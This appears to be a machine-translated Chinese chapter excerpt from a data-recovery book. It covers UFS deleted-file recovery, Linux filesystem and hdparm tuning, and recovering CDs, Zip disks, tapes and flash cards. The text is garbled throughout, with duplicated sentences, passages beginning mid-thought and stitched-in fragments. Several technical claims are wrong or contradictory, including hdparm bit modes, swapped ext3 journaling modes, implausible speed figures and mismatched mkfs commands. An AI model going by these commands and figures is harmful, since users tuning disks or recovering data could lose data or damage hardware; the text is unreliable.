如果文件是碎片化的怎么办？你必须手动重新组装前 13 个块（注意这些是块，而不是碎片）。在理想情况下，这将是一个连续区域。如果第一个碎片位于“外来”块（换句话说，即被另一个文件部分占用且剩余 12 个块位于一个或多个区域的块），情况会糟糕得多。很难想象起始的 13 个块高度碎片化的情况（UFS 支持后台碎片整理）。这只有在许多文件被“重组”时才会发生，而这在现实生活中几乎不会发生（也许只有在你决定建立硬盘的顺序时）。换句话之，假设已经找到了文件的第 13 个块。它将无法存入直接寻址数组中（那里只包含 12 个块）；对它的引用，以及对文件所有后续块的引用，必须包含在间接块中，而这些间接块在文件删除过程中被标记为空闲，但没有被覆盖。大多数文件仅有一个间接块，这极大地简化了恢复任务。

如何在磁盘上找到这个块？计算从圆柱体本身的文件开始到第 13 个块的偏移量，将其转换为碎片，将所得数字倒序写入（以便低位字节占用较小的地址），并在空空间内进行上下文搜索。

很容易将间接块与其他所有数据类型区分开，因为它是一个指向块的指针数组，并以零结束。只需从磁盘检索这些块并写入文件，并将文件截断到所需的长度即可。注意！如果你在不同时间从不同的文件中发现了被删除文件的多个候选者（这很可能是事实），那么删除文件的第 13 个块可能已被覆盖，但并非所有间接块都被覆盖了。你如何将“你的”块与“外来”块区分开？如果至少有一个引用指向已占用的数据块（可以使用位图轻松判断），则可以立即丢弃该块。剩余的块进行手动排序，直到你获得一个可用的恢复文件副本。只要目录项尚未被覆盖，就可以从目录中检索文件名。在恢复多个文件时，无法明确说明哪个名称属于哪个文件。然而，这总比什么都没有要好。目录的恢复方式与普通文件相同，尽管诚实地说，除了文件名之外，没有其他东西可恢复的。

人们普遍认为，上述方法有许多局限性。特别是在删除高度碎片化的文件时，它会失效。然而，没有其他办法了（备份也可能缺失）。因此，这种技术是有用的。

## 调整文件系统以获得最佳性能

与 Windows 不同，Linux 支持全系列文件系统，它们的属性和目标各不相同：Minix、`ext2fs`、`ext3fs`、ReiserFS、`XFS`、`JFS`、`UFS`、`FFS` 等。你会选择哪种文件系统？编译器建议的标准设置并不总是最优的。如果更改默认设置，系统性能可以得到显著提高。硬盘是一种复杂且可靠的设备。它很快，但处理器仍然较慢。尽管工程师付出了努力，磁盘子系统仍然是最慢的组件，这限制了整个系统的性能。尽管如此，处理的数据量正在稳定增长。

2000 年之后发布的大多数主板都集成了 RAID 控制器，支持两种 RAID 模式：RAID-0（“条带”模式，数据同时写入几块硬盘）和 RAID-1（“镜像”模式，硬盘作为彼此的“镜像”副本）。条带模式可以提高性能，因为两块磁盘的运行速度比单盘快 1.5 倍，四块磁盘快 3.5 倍。

2.4 或更高版本内核的用户可以使用软件 RAID，其速度实际上与硬件 RAID 相当，但会略微增加处理器的负载。旧内核（现在几乎已经过了）可能需要你安装额外的软件。关于此主题的更多细节可以在以下地址找到：`http://www.tldp.org/HOWTO/Software-RAID-RA-HOWTO.html`。

### 第8 章：Linux/BSD 下下的数据恢复



图 8.13. 软件 RAID：单硬盘，单通道



图 8.14. 双硬盘，双通道

## 第二部分：自动与手动硬盘数据恢复



**图 8.15.** 四块硬盘，四通道

由 12 块硬盘连接到 EPOX 4PCA3+ 组成的磁盘阵列速度如超音速驱逐舰一样快；然而，其实际运行噪音也非常大。此外，必须购买一个强大的 350-W 电源单元并在分线器上安装特殊过滤器以抑制硬盘对噪音的敏感。性能的提升可能是值得的，特别是当计算机用于视频编辑或处理高分辨率图像时。但是，如果你对性能的要求也如此高，那么最好从一开始就考虑 SCSI 硬盘。在本章中，我将主要介绍 IDE 作为最常见且廉价的接口。

### 使用 Hdparm 进行性能优化

为了获得最高性能，安装到系统的每块硬盘都必须根据其目标进行调优。默认指定的设置面向普通用户，很少能满足个人需求。如果你对磁盘子系统进行调优以考虑流行的查询类型，可以显著提高其性能（可达 10 倍甚至更多）。同时，对磁盘子系统的不当调优会导致性能灾难性的下降。因此，如果自定义设置产生了相反的结果，建议通过恢复默认设置来纠正这种局面。

所有此类自定义都可以使用 `hdparm` 控制台应用程序（图 8.16）完成，该程序作为大多数 Linux 版本的发行版的一部分提供，并需要 root 权限运行。如果你的发行版未包含此工具，可以从 `http://sourceforge.net/projects/hdparm/` 下载。

```
hdparm option1? optionN /dev/hard_disk
```

通常情况下，IDE 接口的硬盘被分配如下名称：`hda`（第一块硬盘）、`hdb`（第二块硬盘）、`hdc` 等此类推。SCSI 的名称显示如下：`sda`、`sdb`、`sdc` 等此类推。遗憾的是，`hdparm` 对它们不起作用。严格来说，`hdparm` 不仅调优硬盘参数，还调优了其控制器的参数以及部分驱动程序参数。然而，从实际角度考虑，考虑单个参数比深究细微的术语细节更重要。



图 8.16. 交互模式下的 Hdparm

### 第二部分：自动与手动硬盘数据恢复

`-a` 命令行选项设置了控制器自动读取的预读扇区数量，以备用户可能需要。默认情况下，内核读取 8 个扇区（4 KB）。在低碎片率的顺序读取大文件过程中，建议将此值增加几倍。相反，在随机访问和处理小型、高度碎片的文件的情况下，建议将此值减小到一或两个扇区。`-P` 选项激活硬件预取机制，通知控制器要读取的扇区数量。粗而言，此选项与 `-a` 相同，但功能更强大。同时，请记住并非所有驱动器都支持硬件预取。

`-m` 选项指定了硬盘在每次更改操作中处理的扇区数量（所谓的多扇区输入/输出或块模式）。根据硬盘的设计特征，它可以处理多达 64 个。要评估状况，请使用 `-t` 命令行选项，它可以测量数据传输。


重要

`-m` 选项负责数据传输。`-c` 命令行选项控制数据模式。0 代表 16 位，1 设置为 12 位，3 确立 32 位模式。默认情况下，内核使用设置为 1 的模式。要保存设置，必须执行 `hdparm -k 1 /dev/hdc` 命令；否则，所有设置将在 IDE 控制器首次刷新或计算机重启后丢失。

## 选择文件系统

文件系统有两种类型——支持日志（journaling）的文件系统和不支持日志的文件系统。第一类文件系统包括 `ext3fs`、ReiserFS 和 `XFS`，而不支持日志的示例包括 Minix、`ext2fs` 和 `UFS`。带日志的文件系统对系统冻结和意外断电更有容忍度。它们会自动系统恢复到稳定状态；但它们不能保护系统免受其他类型的破坏。

# 第8 章：Linux/BSD 下的数据恢复 237


芯片组在此参数设置为 1 时正常运行，这里没有必要过度谨慎。`-d1` 激活 DMA 模式，`-d0` 禁用它。DMA 模式通常会提高性能并减轻处理器负载。但在实践中，情况并非总是如此。IDE 设备共享总线发生冲突时，至少一个必须强制切换到 PIO 模式。`-T` 命令行选项有助于判断实际状况。该选项测量数据传输率。`-d` 通常配合 `-X` 命令使用。PIO模式由等于 `n+8` 的值设置，这意味着 `-X9` 建立 `PIO1`，`-X12` 设置为 `PI4`。DMA 模式对应于 `n+32` 的值，例如：`X34` 对应 `DMA2`。UDMA 模式由 `n+64` 值指定：例如：`X69` 对应 `DMA5`，确保最高性能。遗憾的是，并非所有硬盘和芯片组都支持此模式。要发现支持的模式列表，请使用 `-i` 命令行选项。默认情况下，内核选择不那么激进的数据传输模式，留下了大量的性能空间。顺便说，切换到最高的 UDMA 模式可能会损坏整个磁盘卷。因此，建议在实验之前备份整个磁盘内容。

对于家用计算机和大多数工作站，日志是不必要的，`ext2fs` 文件系统的可靠性已经足够，特别是当计算机配备了不间断时。当需要最高可靠性时，

使用 `ext3fs` 或 `ReiserFS`。根据测试，`ReiserFS` 在读取操作上平均比 `ext3fs` 快 2 倍，在写入操作上快 35 倍，这在处理小文件时尤为明显。在现实中，情况往往相反的。`ReiserFS` 较大的延迟（查询与响应之间的间隔）以及激进的处理器加载使得该文件比 `ext3fs` 更慢，这在小文件上尤为明显（是的，对于那些本可以预期性能提升的小文件来说）。关于此主题的更详细信息可以访问 http://kerneltrap.org/node/view 查看。

如果将日志（journal）放置在独立的介质上，可以大大提高速度。这种被称为“外部”的日志可以使用以下命令连接：`tune2fs -J device=external_journal`（其中 `external_journal` 是分区的名称）。外部日志必须使用 `mk2fs -O journal` 创建。`tune2fs -J size=journal` 控制日志大小。日志越小，性能越低。最大日志大小为 1024 块，或约为 25 MB（该值取决于块大小，将在后介绍）。

默认情况下，`ext3fs` 仅记录元数据（即文件的辅助数据），仅在更新日志后才将其写入磁盘。为了提高性能，可以使用“ordered”（有序）模式，在该模式下，元数据会在更新日志的同时写入。通过以下命令激活：`mount /dev/ -o data=writeback`。这会降低可靠性。如果需要，可以记录所有数据（使用 `mount /dev/ -o data=journal` 激活），之后任何崩溃或断电都不会对系统构成任何威胁。然而，在这种情况下，你将不得不放弃性能考虑。

在创建新系统时，有必要正确选择块大小（在 Windows 术语中称为簇大小）。在 `ext2fs` 和 `ext3fs` 上，使用 `mk2fs -b blocksize` 完成；在 `XFS` 上，使用 `mkfs.xfs -b size=blockSize`；在 `UFS` 上，使用 `newfs -b blocksize`。块越大，碎片越少，磁盘空间的浪费就越大。某些文件系统（例如 `UFS`）支持块内的碎片化数据，这允许你使用块“尾部”中的空空间。因此，使用大块不会导致任何损失。相比之下，`ReiserFS` 文件系统不将磁盘划分为固定大小的“切片”，而是动态分配所需的数据，从而填充整个磁盘。平均而言，这使得可用磁盘空间增加了 6%；然而，这会导致过度碎片化，从而抵消性能的提升。建议你使用可用的最大块大小——`ext2fs` 和 `ext3fs` 为 4 KB，`UFS` 为 16 KB，`XFS` 为 64 KB（`ReiserFS` 和 `J` 不支持此选项）——每个块使用最大数量的碎片（在 `UFS` 中此值为默认值）。

另一个重要选项决定了目录哈希模式。为了加快对包含许多文件和子目录目录的操作，必须将目录组织为二叉树。这在 `ext2fs` 和 `ext3fs` 中可以通过 `mk2fs -O dirindex` 实现，在 `ReiserFS` 中可以通过 `mkreiserfs -HASH` 命令实现，其中 `HASH` 是以下哈希表类型之一：`rbtree`、`htap` 或 `tree`。尽管如此，某些应用程序（例如 `Squid` 代理服务器）强烈建议使用 `htap`；但不能保证高性能。另一方面，`rbtree` 和 `htap` 在包含数百万文件的目录中运行速度缓慢；因此不适用于这种情况。在包含几十个文件的目录上，所有三种算法都输给了带哈希的标准算法。遗憾的是，哈希选项是全局的；换句话说，无法选择性地对目录进行哈希。

`XFS` 文件系统是唯一允许你 inode 化文件辅助数据（属性、块在磁盘上的顺序）的；然而，如果文件无法完全放入 inode 中，系统将将其存储在其他处。不会分配额外的磁盘空间，这释放了磁盘读写头不需要额外移动。结果是文件访问时间大大缩短。`ReiserFS`、`NTFS` 等文件系统也完全相同的方式运行；然而，它们无法更改 inode 大小，这很遗憾。如果你计划处理小文件，最好增加 inode 大小，因为这会对性能和磁盘空间产生积极影响。在处理大文件时，最好减小 inode 大小；否则磁盘空间的浪费将是巨大的。首选 inode 大小使用 `mkfs.ufs -i size=value` 命令选择。最小 inode 大小为 512 字节，最大为 2048 字节。

Windows 控制磁盘子系统的能力非常有限；因此很难破坏其控制的数据。相反，Linux 提供了调优几乎一切的可能性。因此，不练的用户即使犯最微小的错误也会毁掉一切。如果发生这种情况，用户无可自责。不建议在没有先阅读手册的情况下调优磁盘子系统。然而，即使手册也无法帮助你确定


第二部分：自动和手动磁盘数据恢复

你的设备支持哪些模式，哪些不支持。有时，组装不当的电脑会导致损坏。假设你有一根扭曲的电缆或故障连接器——这些因素在默认模式下无法察觉，但在高速模式下会立即显现。因此，在没有备份所有重要数据的情况下，永远不要进行实验。

# 碎片

随着对磁盘的使用，碎片会不可避免地增加。`ext2fs`、`ext3fs` 和 `ReiserFS` 等文件系统受影响最大。在 `UFS` 和 `XFS` 上，碎片影响被大大减少。另一方面，关于 Linux 文件系统不受碎片影响的普遍观点完全是荒谬的迷言。

当多个文件顺序写入磁盘时，系统将它们一个接一个放置，使得第一个文件紧接着第二个文件，以此此类推。因此，没有空空间进一步增长（不考虑块末附近的短“尾部”），系统必须在下一个文件之外分配块。为了纠正这种情况，有必要汇总所有空块，将它们合并成一个连续的片段；换句话说，需要对卷进行碎片整理。

# 第 8 章：Linux/BSD 下的数据恢复 241

## 更新还是不更新

某些应用程序，特别是前面提到的 `Squid` 代理服务器，需要对文件系统进行特殊定制。为了提高性能，建议禁用文件最后访问时间的更新（`mount -o noatime`）。在 `UFS` 上观察到了最令人深刻的性能增长，与其他文件系统相比，`UFS` 不会延迟 INODE 操作（延迟写入），而是在更改后立即执行该操作（直写通过）。对于具有日志特性的 `ext3fs` 来说，`atime` 的更新对总性能的贡献微乎其微，因此是否更新最后访问时间在实际上几乎没有区别。

## 尾部（Tails）问题

默认情况下，`ReiserFS` 将短文件（及其尾部）保存在二二叉树的叶节点上。通常情况下，这会将性能提高数倍，特别是在磁盘空间不短缺的情况下（图 8.17 和图 8.18）。然而，在处理某些应用程序时，



图 8.17. `ReiserFS` 在写操作上的性能，取决于可用空间（已启用尾部打包）

# 第二部分：自动与手动硬盘数据恢复



建议你禁用尾部。当处理许多大小逐渐增加的小型文件时，系统必须重建大量数据结构，在块和树之间移动尾部。这导致了严重的性能下降。`mount -o notail` 命令禁用了尾部和短文件的打包，使用默认选项重新挂载即可重新启用此功能。然而，所有已打包和未解包的尾部将保持在原处，直到它们所属的文件被修改。

> 请记住 `mke2fs` 是一个破坏性命令，会破坏整个文件系统。粗略来说，它是 Linux 下的 format.com。

## 第 8 章：Linux/BSD 下的数据恢复 243

### 推荐阅读

- “The Software-RAID Howto” —— 一本关于在 Linux 下创建软件 RAID 的手册，地址为：http://www.tldg/HOWTO/Software-RAID-HOWTO.html。

- JFS for Linux —— JFS 项目主页，提供源代码、文档、技术描述等，地址为：http://jfs.sourceforge.net。

- ReiserFS —— ReiserFS 项目主页：http://www.namesys.com。


## 参考文献

- Understanding Filesystem Performance for Data Mining Applications —— 对 Linux 下不同文件系统性能的对比分析，并提供了文件系统调优的建议：http://www.cs.ripi.edu/~symanski/papers/hpdm03.pdf。
- “Linux Filesystem Performance Comparison for OLTP” —— 一篇对比 Linux 下不同文件系统性能的白皮书：http://otn.oracle.com/tech/pdf/Linux-FS-Performance-Comparison.pdf。
- “Journaling File Systems” —— 关于日志文件系统以及与此主题相关的所有信息：http://awlinux1.alphadays.ibm.com/developerworks/linux390/perf/tuning_journaling.html
- “Linux: Low Latency and Filesystems” —— 关于 ReiserFS 文件系统优缺点的讨论：kneltrap.org/node/view/3466.
- “Ext3 or ReiserFS Hans Reiser Says Hat's Move Is Understandable” —— 另一篇 ext3 和 ReiserFS 对比的文章，地址为：http://www.linuxplanet.com/linuxplanet/reports/3726/1。
- “Optimizing Linux Filesystems” —— 一篇关于 Linux 下文件系统优化的优秀文章：http://www.newsforge.com/article.plsid=03/10/07/1943256。
- “Journaling-Filesystem Fragmentation Project —— 文件系统碎片领域及其对性能的影响的研究：http://www.informatik.uni-frankfurt.de/~loizides/reiserfs/agesystem.html。
- Filesystem Defragmenter for Linux Filesystems —— 标准 Linux 文件系统碎片器的源码：ftp://metalab.unc.edu/pub/Linux/system/filesystems/defrag-0.70.tar.gz。
- O&O Linux Beta, 1.04761 —— 一款优秀的商业碎片整理软件测试版：http://www.oo-software.com/cgi-bin/download-e.pl?product=OODLXLBIN。

## 第 3 部分：备份介质数据恢复



## 第 9 章：修复各种类型的备份介质



备份副本是防御混乱的最后防线。然而，副本也可能损坏。有很多公司参与数据恢复；然而，他们并不总是能成功完成任务。

本章概述了可移动介质恢复的技术。

谁会为他人的痛苦而苦恼呢？如果世界上有这样的人，他们显然不是服务中心。专业人士拥有成功恢复所需的一切：实践经验、所需设备以及所有其他组件。他们通过付出更多努力来获取利润。这不会改变。

在某些情况下，可以自己恢复丢失的数据。这对于当需要恢复包含重要信息的文件且其价值与驱动器成本相当时尤为如此。本章主要涵盖物理损坏（划痕、表面缺陷），而不考虑误删除的文件或意外格式化。那些主题已经讨论过。

### 光介质

首先，考虑 CD 和 DVD 的恢复。这些目前是最常用的存储介质。制造商声称这些介质具有良好的寿命。事实并非如此；此类光盘经常损坏，往往无法存活一个季节。丹麦 PC-Active 杂志的员工进行了一项有趣的调查。他们选取了几个品牌的光盘，研究了活性层的衰减过程并获得了令人震惊的结果。在图 9.1所示所示，你可以看到一张使用专业设备拍摄的 CD-R 照片。左侧图像是刻录后的光盘，右侧图像是 20 个月后的状态。白色表示理想扇区，浅灰色标记有轻微读取错误的扇区，较深灰色表示严重损坏的扇区。虽然这些光盘通常是可读的（因为 Reed-Solomon 纠码在起作用），但这光盘会随着时间的推移变得越来越难以读取。



图 9.1. 活性层的退化

（一种谁都无法使用的方法）或在 PCB 上找到一个定值电阻并并联一个额外的电阻，从而将有效电阻降低 1.5–2 倍。这种极端步骤只有在光盘无法读取且包含重要数据、数据价值与驱动器成本相当时才必须采取。如何解决这个问题？解决方法既野暴又简单——增加激光功率。这种方法很粗暴，但没有其他办法。激光在这种模式下无法持续很久；然而，在失效之前可能会成功读取某些。如果光盘碎成几块，情况会更糟。是否可以至少拯救部分数据？某些专门数据恢复的公司利用电子显微镜拍摄螺旋轨道照片，然后经过进一步的计算机处理，收集所有幸存位。这是一项枯燥、常规且昂贵的工作，只有少数大型公司数据是负担得起代价的。在家庭条件下，可以使用双面胶带将损坏光片的碎片贴在空光盘上。之后，将制好的胶水粘合结构插入到以 1x–2x 速度运行的驱动器中。使用专用软件进行读取（此类程序可以从我的 FTP 服务器下载），以及一些额外的小技巧。至少应该有一部分信息是可以读取的。尝试评估哪些部分可以挽救。扇区的大小约为 15 毫米。为了定位磁头，驱动器必须解码子信道信息，为了实现这一目标，它读取的不能超过 11 个扇区。因此，这项技术允许你读取弧长小于 17 厘米的片段。对于外边缘来说，这略小于光盘的一半。这意味着如果光盘被分成两部分，将只能恢复靠近边缘写入的信息。这并不太鼓舞；但总比比没有要好。

关于这一点，必须做最后一点说明。光盘是因为驱动器故障而停止读取。现代驱动器的质量远低于约 10 年前的标准质量。激光器经常发生故障。这表现为驱动器变得越来越不可预测，拒绝读取最近还能读取的光盘。因此，如果你遇到此类问题，不要急于归咎于光盘，也不要立即进行抛光。在抛光任何光学表面之前，吹掉灰尘；否则你无法避免划痕。使用特殊的润湿抹布擦拭 CD（类似于你擦拭显示器的那种），每位操作者更换一次，并沿径向（从中心到边缘）擦拭光盘。永远不要以同心方向擦拭光盘。这里没有秘密：纠错码最初的设计是为了纠正同心划痕引起的错误，尽管它们从未强大到能够实际上修正这些错误。

### Zip 磁盘 (Zip Diskettes)

Zip 磁盘足够可靠了。它们不会引起任何特殊麻烦，此类介质上很少遇到坏扇区。这种罕见现象可能是显示器或系统主机产生的电磁场以及表面缺陷（主要出现在低级介质上，如富士）造成的。通常情况下，如果重复多次读取操作，就可以救援一个无法读取的磁盘。实际上任何磁盘医生工具都能处理此任务。与“经典”磁盘（其读写头会划伤磁表面）不同，Zip 驱动器的磁头悬浮在表面上方，因此多次读取不会对介质的健康产生负面影响。换句话说，在这种情况下多次读取不会造成伤害。唯一的例外是磁头损坏并划伤磁盘的驱动器。然而，这种情况在这里不被考虑。你是否见过乘客电梯附近的警告，说明如果发生故障禁止使用？驱动器的情况也一样。

顺便说，在每次失败的读取尝试之后，建议你将磁头重新定位到远程扇区，然后将其返回读取尝试失败的位置。此操作的主要思想是移动磁头，使其以不同的角度靠近问题扇区，并希望在该位置数据块恰好是可读的。作为标准 Windows 发行版一部分的标准磁盘医生（如 Scandisk 和 ChkDsk）无法很好地做到这一点。专业人士编写的 Norton Disk Doctor（被称为“磁盘破坏者”）也同样不够智能。因此，唯一面向恢复损坏 Zip 磁盘的工具一直以来（且现在仍然是）由 Steve Gibson 编写的 SpinRate 工具，你可以在 eDonkey 中找到并下载。它可以恢复约 90% 的无法访问介质，或者根据一些热心的评估，甚至更多。

对于无法插入驱动器的“杀手型”磁盘，情况变得变得复杂得多。边缘卷起或卷下的磁盘也是如此（图 9.2）。这种缺陷是如何出现的？例如，想象一个粗心的用户移动了保护盖，并将手指插入驱动器以取出磁盘，或者磁盘撞击了损坏的磁头。因此，这种杀手型磁盘会毁掉所有偶然插入其中的驱动器。幸运的是，轨道 0 靠近中心；因此，损坏磁盘的文件系统没有被损坏，并保持可读。


## 第 9 章：修复各种类型的备份介质

### 第三部分：从磁带中恢复数据

为了克服这个问题，可以使用指甲或其他“工具”手动平整磁带。这并不太鼓舞；但总比比没有要好。有些人尝试用指甲或其他“工具”手动平整磁带。我强烈建议你不要这样做！通过这种操作，磁带会被拉伸；因此读取所需的时间会增加，而磁带机是为严格定义的速度设计的。信号频率的变化为纠错码带来了额外的负载。


然而，闪存卡的硬件故障并不罕见。逻辑破坏（如误删文件或驱动程序故障）则更为常见。此类错误是一个严重的问题。例如，它们导致了火星漫游器的崩溃（http://www.esolpartners.com/shared/pdf/Spirit_Rover_8.23.04.pdf）。由于这个原因，可能会导致大量数据丢失。内存的一部分被留给系统使用；然而，对其访问并没有被阻止。因此，该区域可以通过程序进行读取和写入。如果驱动程序无意或有意地覆盖了该区域，通常将无法访问闪存卡。卡甚至无法格式化，更不用说读取数据了。几年前，当闪存卡价格昂贵时，这是一场真正的灾难。尽管如此，始终可以找到忽略辅助区域并与卡一起工作的设备。这意味着对闪存内存的底层访问仍然有效。正因如此，你可以读取所有数据并对其进行自行解码。

有很多专门用于恢复闪存卡的工具。我更倾向于使用 `PhotoRescue` 工具（http://www.photorescue.net/），该工具由传奇的 `IDA Pro` 反汇编器开发者开发。尽管它被定位为恢复数字照片的工具，但在恢复其他类型的数据时同样成功。这是一款商业产品，价格 30 美元甚至 40 美元（专家版）；但是，可以免费下载评估版本。

为了避免繁琐的数据恢复程序，请务必始终复制所有关键数据，这样当一个介质故障时，你还有另一个备用。相信我，创建备份副本所花费的时间与恢复丢失数据所需的时间和金钱是不可比拟的。

# 第 10 章：恢复 CD



`CD-R` 和 `CD-RW` 介质是保存适量信息的理想备份介质（而且所有严肃的程序员都会定期备份受托给他们的信息）。遗憾的是，没有人是完美的，没有任何工作可以在不带有某些错误风险的情况下完成（`errare humanum est`：人性的性的犯错）。因此，从 `CD-R` 和 `CD-RW` 中误删文件以及清空这些光片的情况有时会发生。经验表明，这种情况发生太频繁了。

据我所知，市场上还没有广泛提供用于从 `CD` 恢复丢失信息的特殊工具；因此，从损坏的 `CD` 中恢复信息将由你自己来解决。在本章中，我将解释可以做什么以及如何实现。

## 从 CD-R 和 CD-RW 恢复被删除的文件

